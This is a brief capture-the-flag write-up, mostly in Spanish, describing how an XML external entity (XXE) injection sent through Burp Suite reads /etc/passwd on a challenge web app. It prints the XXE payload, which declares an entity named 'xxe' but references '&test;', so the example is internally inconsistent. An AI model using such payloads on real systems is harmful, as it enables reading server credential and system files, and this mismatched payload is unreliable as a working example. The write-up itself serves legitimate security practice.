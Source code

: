 # Objetivo

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

# Solucion

-Para resolver este reto tendremos que usar XML entity injection
-encenderemos Burpsuite e interceptaremos el trafico de la pagina una vez dentro
-Con el BurpSuite encendido Daremos click en un boton de "Details"
-Una vez dentro de Burpsuite haremos la inyeccion xml
```Shell
<?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <data>
     <ID>
      &test;
     </ID>
  </data>


```
-Le enviamos la peticion y nos dara la bandera :)
# Notas adicionales

# Referencias